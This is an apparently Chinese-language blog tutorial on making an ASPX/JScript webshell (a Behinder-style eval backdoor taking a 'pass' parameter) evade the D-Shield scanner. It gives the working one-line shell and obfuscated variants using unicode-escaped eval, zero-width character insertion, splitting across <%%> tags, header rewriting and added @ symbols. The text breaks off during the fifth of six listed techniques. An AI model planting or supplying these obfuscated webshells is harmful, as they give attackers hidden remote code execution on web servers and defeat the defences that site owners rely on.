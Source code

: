 1、unicode编码  
2、空字符串连接  
3、<%%>截断  
3、头部替换  
5、特殊符号@  
6、注释

我们以一个普通的冰蝎马作为示例

<%@ Page Language="Jscript"%>eval(@Request.Item\["pass"\],"unsafe");%

这一步无需多言，一定是会被D盾所查杀的

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUusqjDv6SibZNAPhqTut0HFaqialbIHOrgVHcxHK1VHGyhdKDODRjF5fA/640?wx_fmt=png)

#### 1、unicode编码

例如eval他可以变为  
\\u0065\\u0076\\u0061\\u006c

```
<%@ Page Language="Jscr`ipt"%><%\u0065\u0076\u0061\u006c(@Request.Item["pass"],"unsafe");%>`
```

经过我本地的测试，在JScript的情况下它不支持大U和多个0的增加  
而在c#的情况下，是可以支持的

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUZvT64xYcPNucRAJFpabmDYdA372vUxGV4BbpBJzL70xPfHZKJNwofw/640?wx_fmt=png)

#### 2、空字符串连接

在函数字符串中插入这些字符都不会影响脚本的正常运行，在测试前需要注意该类字符插入的位置，否则插入错误的地方会产生报错  
\\u200c  
\\u200d  
\\u200e  
\\u200f

#### 3、使用<%%>语法

将整个字符串与函数利用<%%>进行分割

```
<%@Page `Language=JS%><%eval%><%(Request.%><%Item["pass"],"unsafe");%>`
```

#### 4、头部免杀

之前有遇到过检测该字段的<%@ Page Language="C#" %>，这个是标识ASPX的一个字段，  
针对该字段进行免杀%@Language=CSHARP% 很久之前修改为这样就过了

同样的，可以修改为  
<%@ Page Language="Jscript"%>------》<%@Page Language=JS%>  
也可以将该字段放在后面，不一定要放前面等

#### 5、使用符号

如哥斯拉webshell存在特征代码，可以添加@符号但是不会影响其解析。

